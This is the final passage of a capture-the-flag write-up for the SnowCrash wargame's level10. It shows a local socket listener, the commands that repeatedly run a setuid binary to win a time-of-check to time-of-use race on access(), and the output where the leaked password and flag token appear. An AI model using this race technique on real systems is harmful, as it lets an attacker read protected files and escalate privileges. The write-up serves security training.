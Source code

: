 ```c
						FD_CLR(i, &master);
					} else {
						printf("buffer: %s\n", buffer);
					}
				}
			}
		}
	}
	return 0;
}
```

Finally we start running in custom script and the `level10` executable every 0.x seconds, and wait.

```bash
# in first terminal
level10@SnowCrash:/tmp/level10$ ./script

# in second terminal
level10@SnowCrash:~$ watch -n 0.1 ./level10 /tmp/level10/token 127.0.0.1
```

After a few to several seconds, the token is received by our server and printed on stdout.

```bash
buffer: .*( )*.

info: socket shutdown
buffer: .*( )*.

info: socket shutdown
buffer: .*( )*.

# [...]

info: socket shutdown
buffer: .*( )*.

info: socket shutdown
buffer: .*( )*.

buffer: woupa2yuojeeaaed06riuj63c
```

```bash
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

## Resources

- [Time-of-check to time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)
- [access() Security Hole](https://stackoverflow.com/questions/7925177/access-security-hole)
